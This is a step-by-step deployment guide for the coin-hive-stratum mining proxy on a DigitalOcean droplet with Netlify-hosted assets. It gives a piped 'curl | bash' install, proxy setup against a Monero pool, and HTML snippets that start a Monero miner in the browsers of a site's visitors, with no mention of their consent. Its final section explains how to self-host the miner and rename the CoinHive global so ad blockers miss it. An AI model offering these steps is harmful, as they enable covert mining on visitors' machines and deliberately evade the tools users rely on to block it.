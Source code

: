 Deploy [coin-hive-stratum](https://gitlab.com/cazala/coin-hive-stratum) to a DigitalOcean dropplet + Netlify CDN

# Account

Create an account at [DigitalOcean](https://m.do.co/c/f0a21da7be52).

If you sign up with [this link](https://m.do.co/c/f0a21da7be52) you will get $10 on DigitalOcean credit for free.

You can also enter a promo code:

* If you have a student email (ending with .edu) you can get $50 on DigitalOcean credit for free with a [GitHub Student Pack](https://education.github.com/pack). 

* If you don't have a student email, you can use the promo code LOWENDBOX to get $15 for free. 

* If the one above doesn't work, you can use DROPLET10 and get $10 for free. 

# Droplet

After logging in, go to your droplets and create a new one:
￼

![33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b](/uploads/a6a9e8b76cf9a6d0d27d2f67b4bcf3e3/33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b.png)

Choose an Ubuntu image:

![33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f](/uploads/644fa6ced095d3b993adb5a31df239bb/33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f.png)
￼
Choose the size:
￼
![33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c](/uploads/e840b11c5beb5fc0e91549557ffe82f4/33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c.png)

Choose a region:
￼
![33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406](/uploads/1d3b271daabe643d497a82586cc2fb53/33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406.png)

After creating your droplet you will receive an email with your droplet's credentials:

```
Droplet Name: ubuntu-512mb-nyc3-01
IP Address: 203.0.113.0
Username: root
Password: EXAMPLE71936efe52b9eb4c602
```

Users of Windows without Bash will have to [access their droplet using Putty](https://www.digitalocean.com/community/tutorials/how-to-log-into-your-droplet-with-putty-for-windows-users).

If you use Linux, Mac, or Windows with Bash, you can access your droplet via OpenSSH:

```
ssh root@203.0.113.0
```

Once logged in, run this command:

```
curl -o- https://gitlab.com/cazala/coin-hive-stratum/raw/master/install.sh | bash 
```

This will install `coin-hive-stratum` and all it's dependencies.

Now run this to activate NVM:

```
source ~/.bashrc
```

To configure your proxy, edit the file proxy.js (by default it's pointing to pool.supportxmr.com:3333):

```
vi proxy.js
```

Now you can start your proxy using pm2:

```
pm2 start proxy.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Run this to monitor your proxy:

```
pm2 monit
```

And this to stop it:

```
pm2 stop proxy
```

Now you proxy is available via `ws://X.X.X.X` (where `X.X.X.X` is your droplet's IP) !

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["ws://203.0.113.0"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Custom Domain or Subdomain and SSL

Probably you will want to access your proxy from a domain instead of an IP, and be able to use `wss://`

In order to do this you will have to get a domain if you don't have one. 

You can get `.tk`, `.ml`, `.ga`, `.cf` and `.gq` domains for free from [dot.tk](http://www.dot.tk/), or you can buy one from [GoDaddy](https://www.godaddy.com/), [NameCheap](https://www.namecheap.com/), or any other other like those will work.

Once you have your domain, follow this guide:

* [Point your Nameservers to DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-point-to-digitalocean-nameservers-from-common-domain-registrars)

If you already have a domain, and you are using Cloudflare (if you don't, you should) and you want to use your proxy under a subdomain, follow this guide:

* [Cloudflare pointing subdomains to different droplets](https://www.digitalocean.com/community/questions/cloudflare-pointing-subdomains-to-a-different-droplets)

To generate your SSL certificates for your domain or subdomain follow this guide:

* [Use Certbot to retrieve Let's Encrypt SSL certificates](https://www.digitalocean.com/community/tutorials/how-to-use-certbot-standalone-mode-to-retrieve-let-s-encrypt-ssl-certificates)

After you have your domain or subdomain setup and your SSL certificates, just edit the file `proxy_secure.js` and add your domain in the line `const domain = "yourdomain.com"`:

```
vi proxy_secure.js
```

It should look like this:

```
const Proxy = require("coin-hive-stratum");
const domain = "yourdomain.com"
const proxy = new Proxy({
  host: "pool.supportxmr.com",
  port: 3333,
  key: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/privkey.pem"),
  cert: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/fullchain.pem"),
});
proxy.listen(443);
```

And run your proxy using this instead:

```
pm2 start proxy_secure.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Now your proxy will be accesible from your domain and via `wss://`!

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["wss://my-awesome-proxy.com"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Avoid AdBlock

You may also want to host your own assets instead of using CoinHive's to avoid AdBlock.

In order to do that, fork [this repo](https://gitlab.com/cazala/coin-hive-stratum).

![fork](/uploads/095f91e51a26af9cb29319cff3139eb6/fork.gif)

---
￼
Now login to [Netlify](https://netlify.com) and follow this instruction:

* Click on `New site from Git`

* Connect to Gitlab

* Select the repo you just forked: `coin-hive-stratum`

* Select the branch `assets`

* Deploy!

![netlify](/uploads/bba96ae08beae3c0e1684e0b1d18ab72/netlify.gif)

This will give you a url like this:

```
https://priceless-wright-067e2f.netlify.com
```

Now instead of using CoinHive's miner:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

You should use your miner like this:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=YOUR-PROXY-URL"></script>
```

This is an example of how it should look like:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=wss://my-awesome-proxy.com"></script>
```

Also, instead of using the CoinHive global variable use CH (this is to avoid AdBlock), ie:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=wss://my-awesome-proxy.com"></script>
<script>
  var miner = CH.Anonymous('MONERO_WALLET_ADDRESS');
  miner.start();
</script>
```
